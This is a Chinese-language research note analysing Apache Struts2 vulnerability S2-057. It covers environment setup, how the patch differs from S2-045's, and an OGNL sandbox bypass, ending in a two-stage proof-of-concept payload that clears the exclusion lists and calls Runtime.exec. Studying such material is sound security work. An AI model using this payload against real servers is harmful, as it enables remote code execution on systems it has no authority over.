


# S2-057分析

### 环境

搭建环境搞了一波心态，根据网上所说的有五种ServletActionRedirectResult/ActionChainResult/PostbackResult/PortletActionRedirectResult/ServletUrlRenderer，毕竟只是分析OGNL的绕过所以随便选了最后一个，这里单独记录下得了，要开启struts.mapper.alwaysSelectFullNamespace，还有注意下面的`../`必须要加(感觉正常情况下谁这样写代码)

```xml
<constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
<package name="S2-001" extends="struts-default">
  <action name="login" class="com.test.s2001.action.PageAction">
    <result name="success">../index.jsp</result>
  </action>
</package>
```

PageAction

```java
public class PageAction extends ActionSupport {
    public PageAction() {
    }

    public String execute() throws Exception {
        return "success";
    }
}
```

测试一波像这样就算搭建成功了



### 相较s2-045的patch

1. 对属性excludedPackageNames、excludedClasses、excludedPackageNamePatterns 使用了 `Collections.unmodifiableSet()` 将这几个属性赋值成为了不可修改的 SET，用于防止对OgnlUtil 属性的清空，因此s2-045当中clear操作明显就不适用了



同时在之前基础上又删除了`#context`的获取

```java
public Object put(Object key, Object value) {
  Object result;
  if (RESERVED_KEYS.containsKey(key)) {
    if (key.equals("this")) {
      result = this.getCurrentObject();
      this.setCurrentObject(value);
    } else if (key.equals("root")) {
      result = this.getRoot();
      this.setRoot(value);
    } else if (key.equals("_traceEvaluations")) {
      result = this.getTraceEvaluations() ? Boolean.TRUE : Boolean.FALSE;
      this.setTraceEvaluations(OgnlOps.booleanValue(value));
    } else if (key.equals("_lastEvaluation")) {
      result = this.getLastEvaluation();
      this._lastEvaluation = (Evaluation)value;
    } else if (key.equals("_keepLastEvaluation")) {
      result = this.getKeepLastEvaluation() ? Boolean.TRUE : Boolean.FALSE;
      this.setKeepLastEvaluation(OgnlOps.booleanValue(value));
    } else {
      if (!key.equals("_typeConverter")) {
        throw new IllegalArgumentException("unknown reserved key '" + key + "'");
      }

      result = this.getTypeConverter();
      this.setTypeConverter((TypeConverter)value);
    }
  } else {
    result = this._values.put(key, value);
  }

  return result;
}
```

### 绕过

所以我们明确了限制条件，

一是不能使用#context去获取context对象，但是也是可以从其他地方获取，比如网上目前提到的

- 通过 request 中值栈的 context 属性：`#request['struts.valueStack'].context`
- 通过 attr 作用域当中保存的 context 对象操作：`#attr['com.opensymphony.xwork2.util.ValueStack.ValueStack'].context` 或者 `#attr['struts.valueStack'].context`

二是OgnlUtil当中的excludedClasses/excludedPackageNamePatterns/excludedPackageNames等使用了Collections.unmodifiableSet导致不可以使用clear方法清空，但是我们可以通过ognlUtil.setXXX('')直接进行修改，毕竟虽然不能修改但是我可以覆盖呗

```java
public void setExcludedPackageNamePatterns(String commaDelimitedPackagePatterns) {
    Set<String> packagePatterns = TextParseUtil.commaDelimitedStringToSet(commaDelimitedPackagePatterns);
    Set<Pattern> packageNamePatterns = new HashSet();
    Iterator i$ = packagePatterns.iterator();

    while(i$.hasNext()) {
        String pattern = (String)i$.next();
        packageNamePatterns.add(Pattern.compile(pattern));
    }

    this.excludedPackageNamePatterns = Collections.unmodifiableSet(packageNamePatterns);
}
```

因此poc也不难

```
(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))

(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('open -na Calculator'))
```

